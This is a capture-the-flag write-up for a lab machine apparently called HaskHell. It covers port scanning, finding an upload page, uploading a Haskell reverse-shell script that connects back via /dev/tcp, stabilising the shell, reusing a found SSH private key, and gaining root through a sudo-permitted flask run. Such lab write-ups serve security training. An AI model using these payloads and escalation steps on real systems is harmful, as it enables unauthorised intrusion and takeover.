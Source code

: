 # Name = HaskHell
```
IP: export IP=10.10.68.222
```
First ao all, we need to do a port scan using `nmap`
```bash
sudo nmap -sC -sV -A -T4 -p- -v -oN scans/nmap.initial $IP
```
Command |Result
--------|-------
-sC     |Run default scripts
-sV     |Enumerate versions
-A      |Aggresive mode
-T4     |Slightly faster scan
-p-     |Scan all ports
-v      |Verbose output
-oN     |Output to file
$IP     |Scan exported IP address

Output shows us only two open ports:

Ports open:
Port |Service
-----|----------
22   |ssh
5001 |gunicorn - web server

Walking around the page we notice that we should upload our scripts written in Haskell, but when we click link to uploads we see a 404 error. Somewhere around should be valid upload page, time to search for it. I primarily use `gobuster`
```bash
gobuster dir -u $IP -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt
```
Command  |Result
---------|--------
dir      |Directory scan
-u       |Url to scan
-w       |Path to wordlist

I found seclists to be updated and running great. Scanning with gobuster shows us another page:

Directory found
- /submit

Going to /submit page we found upload form, and judging from what we read earlier it woul only accept `*.hs` files, and trying with .txt file does nothing. Quick search around internet, and changig file format to .hs shows us it's true.
Looking around for suitabe code I found something that can spawn a reverse shell:
Simply write a script that spawns shell:
```haskell
import System.Process
main = do
   callCommand "bash -c 'bash -i >& /dev/tcp/YOUR_TUN0_ADDR/LPORT 0>&1'"
```
To check the tun0 ip address simply type:
```bash
ip addr show tun0
```
and the address we need to type in the script is right after `inet`.


This is just a simple reverse shell as found on [Pentest Monkey](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet), but preceded with bash -c to compile command.
After uploading the file it runs automatically, but don't forget to spawn netcat listener first!
```bash
nc -lvnp LPORT
```
LPORT is the port number we will listen on and must correspond with LPORT in Haskell script uploaded on the server.

We got the reverse shell! Time to stabilize it:
```bash
python3 -c "import pty;pty.spawn('/bin/bash')"
```
press Ctrl + Z to bacground session, then type
```bash
stty raw -echo
```
type in fg (won't show because of echo), press ENTER twice
back on the shell type 
```bash
export TERM=xterm
```
and we can press TAB to autocomplete, press arrows to go back and such. This stabilized shell resembles our normal terminal window.

We can't get anything useful searching through files except the user flag located in /prof/user.txt:

User flag:
`flag{EDITED}`

And private RSA key for user prof!
```
-----BEGIN RSA PRIVATE KEY-----
MIIEpAIBAAKCAQEA068E6x8/vMcUcitx9zXoWsF8WjmBB04VgGklNQCSEHtzA9cr
94rYpUPcxxxYyw/dAii0W6srQuRCAbQxO5Di+tv9aWXmBGMEt0/3tOE7D09RhZGQ
EDITED
MMn8PNqYKF3DWex59PYiy5ZL1pUG2Y+iadGfIbStSZzN4nItF5+yC42Q2wlhtwgt
i4MU8bepL/GTMgaiR8RmU2qY7wRxfK2Yd+8+GDuzLPEoS7ONNjLhNA==
-----END RSA PRIVATE KEY-----
```

Simply copy the key to Your machine and save it in id_rsa file. Next change file permissions to read-write for user only (600):
```bash
chmod 600 id_rsa
```
and we can log in to ssh using file with id key:
```bash
ssh prof@$IP -i id_rsa
```
Good, now we are a valid user logged on SSH, first thing I usually try to do is find out if i can use sudo commands:
```bash
sudo -l
```
This simple command shows us that indeed, we can run something:
```
User prof may run the following commands on haskhell:                                                                                 
    (root) NOPASSWD: /usr/bin/flask run
```
Running this command however, throws us an error:
```
Error: Could not locate Flask application. You did not provide the FLASK_APP environment variable.
```
Seems we need to give some variable to get it running. After a while of searching I foun out that it can accept python scripts as input. That's great news! Easiest way to exploit it is simple os spawn script in python:
```bash
nano shell.py
```
```python
import os
os.system('/bin/bash')
```
Save it as python script, then add the script to variable FLASK_APP:
```bash
export FLASK_APP=script.py
```
and run as superuser
```bash
sudo /usr/bin/flask run
```
Locate root flag at /root/root.txt
Root flag
`flag{EDITED}`

And that's it! Submit the flags on the page to get points!
Congratulations!
